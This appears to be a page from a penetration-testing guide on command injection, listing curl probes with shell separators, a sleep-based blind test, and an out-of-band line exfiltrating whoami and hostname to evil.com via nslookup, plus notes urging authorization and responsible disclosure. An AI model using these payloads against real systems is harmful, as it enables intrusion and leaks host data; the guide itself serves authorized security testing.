 ## Advanced Command Injection Testing

```bash
# Test for command injection with different separators
curl "https://target.com/cmd?input=;id"
curl "https://target.com/cmd?input=|id"
curl "https://target.com/cmd?input=||id"
curl "https://target.com/cmd?input=&&id"
curl "https://target.com/cmd?input=`id`"
curl "https://target.com/cmd?input=$(id)"

# Test for blind command injection with time delays
curl "https://target.com/cmd?input=sleep+5"

# Test for out-of-band command injection
curl "https://target.com/cmd?input=nslookup+$(whoami).$(hostname).evil.com"
```

## Important Security Notes

1. **Legal and Ethical Considerations**:
   - Always obtain proper authorization before testing
   - Respect robots.txt and terms of service
   - Be aware of local laws and regulations
   - Use a controlled testing environment when possible

2. **Rate Limiting**:
   - Implement delays between requests
   - Use rotating IP addresses when allowed
   - Respect server response headers (Retry-After, etc.)

3. **Data Protection**:
   - Do not exfiltrate or store sensitive data
   - Use secure connections (HTTPS) for all requests
   - Sanitize all inputs and outputs

4. **Best Practices**:
   - Keep detailed logs of all tests performed
   - Document all findings with proof of concept
   - Report vulnerabilities responsibly to the appropriate parties

5. **Tools Integration**:
   - Consider using specialized security tools (Burp Suite, OWASP ZAP, etc.)
   - Automate repetitive tasks with scripts
   - Use version control for your testing code

6. **Performance Considerations**:
   - Be mindful of server load
   - Test during off-peak hours when possible
   - Use appropriate timeouts and retry logic

Remember that with great power comes great responsibility. Always ensure you have explicit permission before testing any system that you do not own or have explicit authorization to test.
